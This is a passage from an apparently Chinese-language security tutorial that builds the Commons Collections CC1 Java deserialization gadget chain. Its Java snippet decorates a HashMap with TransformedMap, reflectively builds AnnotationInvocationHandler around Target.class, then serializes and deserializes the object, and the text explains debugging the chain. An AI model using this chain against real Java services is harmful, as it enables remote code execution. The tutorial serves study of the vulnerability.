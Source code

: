 所以这里我们就要找到一个有函数名的注释类，然后将 map 中的 key 改成对应的函数名称：

[![](assets/1701612311-a09892856b5d62f7acaa403d20ec4b96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235130-f7c98618-20cb-1.png)

```plain
HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");
```

再进行一次调试我们就发现能够进入 if 语句了：

[![](assets/1701612311-e56ca55fe8d485c154e550dbab44214f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235136-fbab84d4-20cb-1.png)

#### `transform`中 value 设置：

我们发现 setValue 里面并不是我们想要传的值
